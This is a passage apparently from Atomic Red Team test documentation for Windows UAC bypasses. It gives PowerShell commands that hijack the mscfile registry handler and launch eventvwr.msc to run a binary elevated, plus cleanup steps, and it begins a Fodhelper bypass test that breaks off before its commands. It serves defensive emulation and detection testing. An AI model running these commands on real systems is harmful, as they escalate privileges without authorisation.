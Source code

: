 **Supported Platforms:** Windows


**auto_generated_guid:** a6ce9acf-842a-4af6-8f79-539be7608e2b





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| executable_binary | Binary to execute with UAC Bypass | path | C:&#92;Windows&#92;System32&#92;cmd.exe|


#### Attack Commands: Run with `powershell`! 


```powershell
New-Item "HKCU:\software\classes\mscfile\shell\open\command" -Force
Set-ItemProperty "HKCU:\software\classes\mscfile\shell\open\command" -Name "(default)" -Value "#{executable_binary}" -Force
Start-Process "C:\Windows\System32\eventvwr.msc"
```

#### Cleanup Commands:
```powershell
Remove-Item "HKCU:\software\classes\mscfile" -force -Recurse -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #3 - Bypass UAC using Fodhelper
Bypasses User Account Control using the Windows 10 Features on Demand Helper (fodhelper.exe). Requires Windows 10.
Upon execution, "The operation completed successfully." will be shown twice and command prompt will be opened.

**Supported Platforms:** Windows


**auto_generated_guid:** 58f641ea-12e3-499a-b684-44dee46bd182





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| executable_binary | Binary to execute with UAC Bypass | path | C:&#92;Windows&#92;System32&#92;cmd.exe|


#### Attack Commands: Run with `command_prompt`! 


